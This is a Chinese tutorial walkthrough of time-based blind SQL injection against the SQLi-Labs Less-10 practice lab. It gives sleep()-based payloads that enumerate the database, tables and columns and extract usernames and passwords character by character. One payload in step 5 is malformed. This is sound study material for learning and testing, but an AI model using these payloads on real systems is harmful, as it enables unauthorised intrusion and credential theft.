




# 一、延时盲注概述
1. 延时盲注又称时间盲注，延时盲注只会回显一种界面，页面返回的数据包无论正确与否都只返回一种状态，按照前面所说的报错注入和布尔注入的方法无法判断出此种注入。
2. 延时盲注的判断可以使用函数sleep()，设定页面返回时间，根据页面数据返回时间是否与sleep()函数设定的时间一致，如设定sleep(5)，若页面延时5秒返回数据，则存在SQL延时盲注。
3. 延时盲注比报错注入、布尔注入更难利用，因为需要根据页面返回的延迟状态来判断攻击是否成功，通常需要耗费大量的时间
# 二、延时盲注示例——SQLi-Labs Less-10
1. 测试注入点类型，测试单双引号均无回显，and 1=1和and 1=2无不同状态，测试延时盲注，poc如下，页面成功延时5秒返回数据包，确定为延时盲注

``` SQL
?id=1" and sleep(5) --+
```

2.  测试数据库名长度，poc如下，测试得知数据库名长度为8

``` SQL
?id=1" and if(length(database())>7,sleep(5),0) --+
```



3.  获取数据库名，构造poc如下，如下，对attack的结果根据response排序后即为数据库名security

``` SQL
?id=1" and if(substring(database(),1,1)='s',sleep(5),0) --+
```



4.  获取数据库security中的表的数量，poc如下，经测试，security库中的表数量为4

``` SQL
?id=1" and if((select count(table_name) from information_schema.tables where table_schema=database())=4,sleep(5),0) --+
```

5.  获取security库的表的名字，poc如下

``` SQL
?id=1" and if(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e',sleep,0) --+
```

-   设置poc变量如下，然后点击start attack



-   完成后对结果进行排序，即可获取到security库中的表名：emails、referers、uagents、users，由于导出来后表中的数据都是文本格式，需要将Payload1和Payload2修改为数值格式，然后排序才能正确排序



6.  后续操作步骤除了poc不一样外，其他操作都与上述操作相同，poc如下

-   获取users表中的字段数量poc

``` SQL
?id=1" and if((select count(column_name) from information_schema.columns where table_name='users')=3,sleep(5),0) --+
```

-   获取users表的字段的值

``` SQL
?id=1" and if(substring((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i',sleep(5),0) --+
```

-   获取users表的username、password字段值poc

``` SQL
?id=1" and if(substring((select username from users limit 0,1),1,1)='d',sleep(5),0) --+
?id=1" and if(substring((select password from users limit 0,1),1,1)='d',sleep(5),0) --+
```